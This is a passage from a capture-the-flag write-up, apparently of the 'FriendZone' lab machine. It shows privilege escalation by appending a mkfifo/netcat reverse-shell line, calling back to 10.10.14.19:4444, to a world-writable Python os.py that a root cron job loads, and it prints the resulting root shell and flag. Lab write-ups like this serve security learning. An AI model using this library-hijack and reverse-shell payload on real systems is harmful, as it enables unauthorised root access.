 # I need to edit the script later
# Sam ~ python developer
{% endhighlight %}

Also, By running <a href="https://github.com/rebootuser/LinEnum">LinEnum</a>, we can find a world writable script.<br>
{% highlight shell %}
[-] Files not owned by user but writable by group:
-rwxrw-rw- 1 nobody nogroup 5492 Sep  4 22:08 /etc/Development/php-reverse-shell.php
-rwxrwxrwx 1 root root 25910 Jan 15  2019 /usr/lib/python2.7/os.py
{% endhighlight %}

Meaning we have following information.
1. "/usr/bin/python2.7/os.py" is writable worldwide
2. cron is executing "/opt/server-admin/reporter.py" in a couple of minute as root.
3. "/opt/server-admin/reporter.py" is loading "/usr/bin/python2.7/os.py".

This indicates that we can hijack the python library.<br>
Then, run following command to add some new lines in os.py
{% highlight shell %}
friend@FriendZone:/opt/server_admin$ echo 'import os' >> /usr/lib/python2.7/os.py
friend@FriendZone:/opt/server_admin$ echo 'os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.19 4444 >/tmp/f")' >> /usr/lib/python2.7/os.py
{% endhighlight %}

Then, launch a netcat listener
{% highlight shell %}
root@kali:~# nc -nlvp 4444
listening on [any] 4444 ...
{% endhighlight %}

Couple of minutes later, we can get a root shell.
{% highlight shell %}
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.123] 49954
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
{% endhighlight %}

root.txt is in the root directory.
{% highlight shell %}
# cat /root/root.txt
b0e6c60b82cf96e9855ac1656a9e90c7
{% endhighlight %}
